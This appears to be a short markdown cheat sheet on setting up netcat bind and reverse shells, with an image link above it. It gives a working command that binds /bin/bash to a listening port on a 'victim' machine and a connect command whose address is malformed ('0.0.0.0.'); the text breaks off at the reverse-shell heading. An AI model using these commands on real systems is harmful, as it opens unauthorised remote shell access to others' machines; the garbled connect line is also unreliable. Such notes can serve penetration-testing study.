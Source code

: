 
#### This is how to setup a bind/reverse shell listener  

## Bind Shell
*set's up listener on victim*

**Listener:**  
`nc -lvp 9001 -e /bin/bash`
* The above command will setup a listener on victim computer

**how to connect to lisenter**  
`nc 0.0.0.0. 9001`


## Reverseshell
_set's up listener on attacker_